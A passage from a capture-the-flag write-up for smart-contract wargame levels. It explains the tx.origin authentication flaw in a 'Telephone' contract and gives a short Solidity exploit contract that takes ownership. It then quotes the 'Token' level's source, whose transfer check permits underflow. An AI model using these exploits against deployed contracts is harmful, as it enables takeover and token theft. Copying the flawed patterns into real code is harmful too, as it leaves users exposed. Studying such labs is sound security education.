 ```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

We have a check in the `changeOnwer` function, we need to pass that check inorder to set the owner. When we call the `changeOwner` function from an other contract we could sucessfully pass the check and write the owner. Because `tx.origin` contains the EOA from where the transaction was initiated and `msg.sender` will be our exploit contract.

> #### Solution:
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface telephone {
>     function changeOwner(address _owner) external;
> }
> 
> contract telephoneExploit {
>     telephone tP;
> 
>     constructor(address _instance){
>         tP = telephone(_instance);
>     }
> 
>     function messageCall(address _player) public {
>         tP.changeOwner(_player);
>     }
> }
> ```

<hr>

## 5 Token
In this challenge, we're given 20 tokens, inorder to complete this level we have to steal tokens from the contract.
#### Source: 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
```